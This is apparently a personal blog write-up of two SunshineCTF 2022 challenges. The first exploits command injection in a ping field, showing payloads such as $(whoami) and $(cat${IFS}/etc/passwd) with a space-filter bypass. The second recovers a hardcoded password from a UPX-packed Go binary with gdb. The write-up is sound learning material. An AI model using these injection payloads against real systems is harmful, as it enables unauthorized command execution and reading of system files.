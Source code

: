 ```yaml
---
layout: post
category: writeup
---
```



![](assets/images/sunshinectf22.png)


- sunshine CTF was fun! we were in person and unfortunately had no internet what so ever. 
- that caused me to not put as much effort as i normally would have.
- nevertheless i got some challeneges done and here are their writeups!

### network pong

this challenge was interesting. since i had just refreshed my knowledge on the topic it felt easy. it's a classic command injection vulnerability except
they are using command expansion. 

`
{ping,-c,1,[INJECT ME]}
`

i figured that out by entering a semicolon


![](assets/images/expansion.png)

then i entered a whoami command

`0.0.0.0$(whoami)`

![](assets/images/whoami.png)

that was successful, therefore I ran a read file

`0.0.0.0$(cat /etc/passwd)`

![](assets/images/space.png)

this was bad as it could have been either of two things:
- length based check
- it doesn't like spaces

i wanted to be optimistic about this so i went ahead and assume it's a space issue:

`0.0.0.0$(cat${IFS}/etc/passwd)`

![](assets/images/cat.png)

this looks better, the previous error is gone and it is complaining about cat, let me try less

`0.0.0.0$(less${IFS}/etc/passwd)`

no error, so now lets try to read the flag

`0.0.0.0$(less${IFS}flag.txt)`

![](assets/images/flag.png)


success!


### plumber game

this was a reversing challenge that was pretty easy generally.

it starts off with a upx packed binary that needed to be unpacked:

```
gerbsec@illusion:~$ strings plumber_game | grep upx
$Info: This file is packed with the UPX executable packer http://upx.sf.net 
```

so i unpacked it with upx

```
gerbsec@illusion:~/chall/upx-4.0.1-amd64_linux$ ./upx -d ../plumber_game 
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2022
UPX 4.0.1       Markus Oberhumer, Laszlo Molnar & John Reiser   Nov 16th 2022

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
   2144897 <-    689396   32.14%   linux/amd64   plumber_game

Unpacked 1 file.
```

looking at strings, it looks like go, so i sent it into gdb

i run `disass main.main` and i see an interesting `runtime.memequal` soon after a `ScanIn` i suspect this is the string being compared to with the password.

```
   0x000000000048edb1 <+257>:   mov    QWORD PTR [rsp+0x10],rax
   0x000000000048edb6 <+262>:   mov    QWORD PTR [rsp],rcx
   0x000000000048edba <+266>:   lea    rax,[rip+0x33050]        # 0x4c1e11
   0x000000000048edc1 <+273>:   mov    QWORD PTR [rsp+0x8],rax
   0x000000000048edc6 <+278>:   call   0x44e150 <runtime.memequal>
   0x000000000048edcb <+283>:   movzx  eax,BYTE PTR [rsp+0x18]
   0x000000000048edd0 <+288>:   test   al,al
   ```


i add a bp at `*main.main+278`, i run and enter 16 chrs for the password since in a previous check it says it needs 16.

looking at the output I see what could possibly be a string:

```
0xc420047d40 —▸ 0x4c1e11 (string.*+6241) ◂— 0x36325f3172347440 ('@t4r1_26')
```

i inspect that address

```
pwndbg> x/s 0x4c1e11
0x4c1e11:       "@t4r1_2600_l0v3rGC worker (idle)Imperial_AramaicMSpanList_InsertMSpanList_RemoveMeroitic_CursiveOther_AlphabeticSIGNONE: no trapZanabazar_Square\nruntime stack:\nbad frame layoutbad special kindbad symb"...
```

i see the password `@t4r1_2600_l0v3r` and use it when running the binary:

```
gerbsec@illusion:~/chall$ ./plumber_game 
Please enter your password below:
@t4r1_2600_l0v3r
Password accepted! Dispensing flag...
sun{go_to_the_other_castle}@t4r1_2600_l0v3r
```

win!


beyond these two challenges, the rest of the ones i solved felt very lame and not writeup worthy, i also now know that i need to practice my pwn skills and get better at math! thanks for hosting my friends @ucf!


best, gerbsec
